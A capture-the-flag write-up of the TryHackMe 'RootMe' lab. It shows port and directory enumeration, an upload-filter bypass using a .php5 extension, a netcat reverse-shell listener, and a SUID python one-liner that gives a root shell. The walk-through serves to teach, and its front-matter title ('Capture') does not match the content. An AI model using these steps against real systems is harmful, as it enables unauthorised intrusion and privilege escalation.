 ```yaml
---
title: Capture - TryHackMe
date: 2025-02-20
---
```


# RootMe

## Challenge Description

A ctf for beginners, can you root me?

## Challenge Overview

RootMe is an introductory-level Linux machine on TryHackMe designed to help beginners practice fundamental penetration
testing skills. The challenge involves exploiting a vulnerable file upload functionality to gain initial access and then
leveraging a misconfigured SUID permission on the Python binary for privilege escalation to root.

## Enumeration

### Nmap Scan

We begin by scanning the target machine to identify open ports and services:

```bash
$ nmap -sC -sV -v -p- -oN rootme.nmap 10.10.180.4
Nmap scan report for 10.10.180.4
Host is up (0.027s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan reveals two open ports:

- **Port 22**: SSH service running OpenSSH 7.6p1
- **Port 80**: HTTP service running Apache 2.4.29

The presence of an HTTP service suggests a web application that may be vulnerable to exploitation.

### Web Enumeration

Navigating to `http://10.10.180.4/` displays the homepage of the web application:

![RootMe - Home Page](/ctf/tryhackme/rootme/home.png)

To discover hidden directories, we use Gobuster:

```bash
gobuster dir -w /usr/share/dirb/wordlists/common.txt -t 20 -x php,txt -u "http://10.10.180.4/" > rootme-gobuster.txt
```

The scan identifies two directories:

- `/panel/`: Potentially an administrative panel.
- `/uploads/`: Directory for uploaded files.

## Exploitation

### File Upload Vulnerability

Accessing the `/panel/` directory reveals a file upload functionality:

![RootMe - Panel Page](/ctf/tryhackme/rootme/panel.png)

Attempting to upload a PHP file results in an error:

![RootMe - Panel Error Message](/ctf/tryhackme/rootme/panel-error.png)

*Translation: "PHP is not allowed!"*

To bypass this restriction, we rename the file with a `.php5` extension and attempt the upload again:

![RootMe - Panel Success Message](/ctf/tryhackme/rootme/panel-success.png)

*Translation: "The file was uploaded successfully!"*

The file is now accessible in the `/uploads/` directory:

![RootMe - Uploaded File](/ctf/tryhackme/rootme/uploads.png)

### Gaining a Reverse Shell

To establish a reverse shell, we prepare a PHP reverse shell script (`exploit.php5`) with our IP and desired port.
Before executing the script, we set up a listener on our machine:

```bash
nc -lnvp 4444
```

Navigating to `http://10.10.180.4/uploads/exploit.php5` in the browser triggers the reverse shell, granting us access:

```bash
$ nc -lnvp 4444
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Post-Exploitation

### User Flag

To locate the user flag, we search for `user.txt`:

```bash
$ find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
```

Reading the file reveals:

```bash
$ cat /var/www/user.txt
THM{user_flag}
```

### Privilege Escalation

To escalate privileges, we search for files with the SUID bit set:

```bash
find / -type f -perm -u=s 2>/dev/null
```

The scan reveals that `/usr/bin/python` has the SUID bit set. According
to [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid), we can exploit this to gain root access:

```bash
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

### Root Flag

With root privileges, we can now access the root flag:

```bash
$ cat /root/root.txt
THM{root_flag}
```
